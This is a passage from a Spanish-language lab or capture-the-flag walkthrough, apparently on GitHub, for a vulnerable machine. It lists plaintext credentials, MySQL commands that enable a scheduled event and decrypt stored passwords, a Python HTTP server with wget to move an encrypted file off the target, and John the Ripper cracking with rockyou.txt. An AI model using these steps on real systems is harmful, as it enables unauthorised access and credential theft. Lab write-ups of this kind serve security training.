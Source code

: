 **Credenciales:**
- Usuario: `acute`
- Contraseña: `IS4yBvfwxpXUZsBxhCXr5muv3dXdQg!`

---

## 🔑 Acceso a MySQL

Conectamos al servicio MySQL en el puerto 3306:

```bash
mysql -u acute -p -h 192.168.1.41
```

Exploramos la base de datos y encontramos un **evento programado** deshabilitado. Lo activamos:

```sql
ALTER EVENT insert_login_data ENABLE;
```

Ahora, la tabla `login` genera credenciales cada minuto. Desencriptamos la contraseña directamente en MySQL:

```sql
SELECT CONVERT(AES_DECRYPT(UNHEX(password), 'encryption_key') USING utf8) 
AS decrypted_password FROM login WHERE usuario = 'administrador';
```

---

## 🔐 Desencriptando el Fichero leeme.txt.gpg

En nuestro directorio personal, encontramos un archivo encriptado llamado `leeme.txt.gpg`. Dado que la máquina no dispone de **John the Ripper**, necesitaremos transferir el archivo a nuestra máquina local para descifrarlo.

### 🌐 Descargando el archivo con Python

Creamos un servidor web sencillo en la máquina objetivo utilizando Python:

```bash
python3 -m http.server
```

Desde nuestra máquina local, descargamos el archivo mediante `wget`:

```bash
wget http://10.0.2.15:8000/leeme.txt.gpg
```

### 🔓 Cracking de la contraseña con John the Ripper

1. Convertimos el archivo a un formato compatible con John the Ripper usando `gpg2john`:
   ```bash
   gpg2john leeme.txt.gpg > leeme_hash.txt
   ```

2. Usamos John con el diccionario `rockyou.txt` para romper la clave:
   ```bash
   sudo john --wordlist=/usr/share/wordlists/rockyou.txt leeme_hash.txt
   ```
